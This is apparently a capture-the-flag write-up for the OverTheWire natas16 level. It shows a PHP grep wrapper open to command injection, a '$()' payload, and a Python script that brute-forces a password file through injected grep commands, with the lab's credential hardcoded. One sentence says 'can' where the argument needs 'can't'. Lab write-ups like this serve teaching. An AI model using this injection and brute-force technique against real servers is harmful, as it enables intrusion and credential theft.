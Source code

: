 This is a more secure version of `natas9`. 

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
	$key = $_REQUEST["needle"];
}

if($key != "") {
	if(preg_match('/[;|&`\'"]/',$key)) {
		print "Input contains an illegal character!";
	} else {
		passthru("grep -i \"$key\" dictionary.txt");
	}
}
?>
```

It filters for specific characters, preventing us from doing the same thing as `natas9`. When this program runs the `passthru` command, the key is enclosed in quotes, making it a string. So regularly, we can't execute strings. But if we use `$()`, we could actually execute it. We can test this hypothesis by typing this text into the input:

```sh
$(echo Asians)
```

This gave us "*Asians*". So we can execute commands from this. However, we can just do `$(cat /etc/natas_webpass/natas17)` because the output of this command will be fed into the outer grep command, which will give us nothing. So we need to brute force this just like the previous level.

Since the output of the inner command will be fed into the outer grep command, we could try grepping each characters to derive the password. We can combine the output of the inner grep command with a word that we know is in `dictionary.txt` like "*Asians*" for example. If we don't find the correct character, then the output of the inner command will be empty, which won't affect the outer command's grepping for "*Asians*" and it would still output "Asians". But if we do find the correct character, then the output of the inner command will be combined with "*Asians*", making it so that we the outer grep command will be grepping for "*inner_command_output + Asians*" instead of just "*Asians*". So all we need to do is try to derive each of the 32 characters. We could do this using a similar script to `natas15` (since it didn't specify any POST request when uploading the input into the script, we'll use GET requests):

```python
import requests
import string

url = 'http://natas16.natas.labs.overthewire.org'
username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

characters = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in characters:
        command = '$(grep -E ^%s%c.* /etc/natas_webpass/natas17)Asians' % (flag, char)
        response = requests.get(url, auth=(username, password), params={"needle" : command})
        
        if "Asians" not in response.text:
            flag += char
            print(f'Building flag: {flag}')
            break

print(f'Complete flag: {flag}')
```
